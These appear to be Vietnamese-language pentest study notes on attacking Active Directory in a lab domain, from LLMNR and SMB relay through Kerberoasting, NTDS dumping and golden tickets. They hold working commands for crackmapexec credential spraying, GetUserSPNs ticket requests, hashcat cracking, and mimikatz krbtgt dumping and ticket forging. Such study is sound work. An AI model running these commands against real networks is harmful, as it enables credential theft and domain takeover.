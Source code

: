 # Hacking Active Directory: From Reconnaissance to Exploitation - Part 1 + 2

## Step 1: Lấy credentials

__LLMNR ATTACK__: 
Được dùng trong window để phân tải tên. 
Tấn công: dùng Responder tool để bắt được credentials.
Khi lấy được NTLM hash thì dùng hashcat để crack.

__SMBRelay ATTACK__
Là kiểu tấn công mạng, attacker có thể chặn và chuyển tiếp các yêu cầu xác thực và phản hồi giữa client và server.
Là phương án dự phòng cho LLMNR attack khi hash được captured không thể bẻ khóa.

__IPV6 DNS Takeover ATTACK__
Tấn công chiếm quyền DNS IPv6 liên quan đến kẻ tấn công khai thác lỗ hổng trong cấu hình DNS IPv6 để chặn và thao túng các truy vấn DNS. => Đưa địa chỉ IPv6 giả mạo, tấn công chuyển hướng DNS sang các máy chủ độc hại => cho phép nghe lén, thay đổi và chuyển hướng lưu lượng mạng.

## Step 2: Enumerating AD

__Bloodhound__

Dùng để ánh xạ và phân tích Directory (AD) environments.

Giúp nhận dạng các mối quan hệ, quyền hạn, các con đường tấn công ẩn trên AD domain bằng cách đưa ra cách user, group và máy tính được kết nối với nhau.

Bloodhound sử dụng cấu trúc dữ liệu dựa vào đồ thị của Neo4j để lưu trữ, truy xuất hiệu quả, hình dung ra mối quan hệ trong AD.

![image](https://hackmd.io/_uploads/r1xV7RKGJl.png)

![image](https://hackmd.io/_uploads/S1_NQ0tzkl.png)

__MMC (Microsoft Management console)__

Cho phép quản lý nhiều thành phần khác nhau trong một giao diện duy nhất và quản lý từ xa.

![image](https://hackmd.io/_uploads/Bk33QCtz1g.png)

## Step 3: Moving Laterally and Exploiting

### PASS ATTACK

__Pass-the-Password__

Kĩ thuật dựa trên việc bắt và sử dụng các plaintext password để xác thực giữa nhiều thiết bị. Nếu mật khẩu người dùng được sử dụng lại trên nhiều hệ thống => cho phép attacker chiếm quyền điều khiển toàn bộ hệ thống.

__Pass-the-Hash__

Kĩ thuật đề cập đến việc bắt các mật khẩu đã được mã hóa (NTLM hashes) và sử dụng nó mà không cần crack => có thể mạo danh được người dùng khác, truy cập vào tài nguyên với quyền của user bị mạo danh.

### Attack

Sử dụng tool `crackmapexec`

Example:

```cmd
crackmapexec smb 192.168.134.0/24 -u username -d ADPENTT.local -p plaintext_pass
# OR:
crackmapexec smb 192.168.134.0/24 -u username -H hash_of_pass
```


### KERBEROASTING

![image](https://hackmd.io/_uploads/r1NQVqKMyl.png)

Để lấy TGS, sử dụng tool `GetUserSPNs.py`

```
GetUserSPNs.py ADPENTT.local/username:password -dc-ip DC_iP_ADDR -request 
```

Extract TGS hash:
```
hashcat -m 13100 krb.txt /usr/share/wordlists/rockyou.txt 
```

### Mạo danh token

Token là dữ liệu có thể bao gồm dữ liệu người dùng, quyền, thành viên nhóm => để kiểm soát quyền truy cập và hành động.

=> Đề cập đến việc hacker lấy được token của người dùng hợp lệ.
Token có 2 loại:
- Delegate Token
- Impersonate Token

Attack: sử dụng `use exploit/windows/smb/psexec` của Metaploit

### DUMPING NTDS.dit

NTDS (NT Directory Services): là file database của AD - `ntds.dit` - lưu trữ các thông tin về user, group,...

Attack: dùng tool: `secretsdump.py`

## Step 4: Persisting in Active Directory

### GOLDEN TICKET ATTACK

Là cuộc tấn công mà hacker lấy được TGT ticket thông qua mã băm mật khẩu của người dùng.

Sử dụng tool tấn công: `mimikatz`

```terminal
privilege::debug 
#to grants the Mimikatz tool the necessary permissions to perform advanced tasks that are typically restricted to administrators or system processes.
lsadump::lsa /inject /name:krbtgt
```

Sau khi lấy được hash password của `krbtgt`, dùng lệnh tiếp theo

```
kerberos::golden  /User:Administrator /domain:adpentt.local /sid:S-1-5-21-527687875-826702742-2417181359 /krbtgt:590d534c15c13980a6d41c34d8ab9f03 /id:500 /ptt
```

Sau đó sử dụng `misc::cmd`

Ta có thể dùng `PsExec.exe` để truy cập tới cmd của thiết bị được chỉ định. 

![image](https://hackmd.io/_uploads/S1mLvJ5Mke.png)

![image](https://hackmd.io/_uploads/HycNwy9Mkg.png)
